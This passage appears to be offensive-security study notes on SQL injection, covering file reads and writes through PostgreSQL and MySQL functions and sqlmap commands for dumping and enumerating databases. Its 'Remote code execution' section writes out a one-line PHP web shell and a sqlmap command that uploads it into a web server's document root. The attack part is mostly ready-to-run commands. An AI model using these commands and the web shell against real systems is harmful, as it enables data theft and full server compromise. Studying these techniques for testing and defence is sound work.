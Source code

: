 ```sql
SELECT pg_read_file('postgresql.conf');  -- read full file
SELECT pg_read_file('postgresql.conf', 0, 1000);  -- first 1000 bytes
SELECT pg_read_file('postgresql.conf', 0, 1000, true);  -- ignore if missing
```

Only superusers can use pg_read_file(). If you run this as a normal user, you'll get a permission denied error.

In MySQL, we can read files using the LOAD_FILE() function. However, there is a catch. MySQL has a secure_file_priv system variable that restricts which directories can be used to read or write files. Some versions of MySQL do not set this variable by default, which means MySQL can potentially read or write any file (subject to OS file permissions). Setting the value to an empty string ("") is the same as leaving the value blank. Other versions, or hardened configurations, will set this variable to a specific directory. We can check the value of this variable with

```sql
SELECT @@GLOBAL.secure_file_priv;
```

```sql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt'
```

```sql
SELECT LOAD_FILE('/var/lib/mysql-files/test.txt')
```

### Remote code execution

Here’s an example command to perform Error-based SQL Injection using SQLmap:

```shell
sqlmap -u "http://example.com/vulnerable.php?id=1" --technique E --dump
```

This command specifies the target URL and injection point using the -u option, the Error-based SQL Injection technique using the --technique option, and the --dump option to extract data from the database.

```shell
sqlmap -u "http://example/index.php?id=8" --tables --batch
```

```shell
sqlmap -u "http://example/index.php?id=8" -D extramile -T flags --columns --batch
```

```shell
sqlmap -u "http://example/page.php?id=8" --privileges --current-user
```

shell.php

```shell
echo "<?php system(\$_GET['cmd']); ?>" > shell.php
```

    - http://target.com/shell.php?cmd=whoami

```shell
sqlmap -u "http://target.com/page.php?id=1" \
--file-write="shell.php" \
--file-dest="/var/www/html/shell.php" \
--batch
```
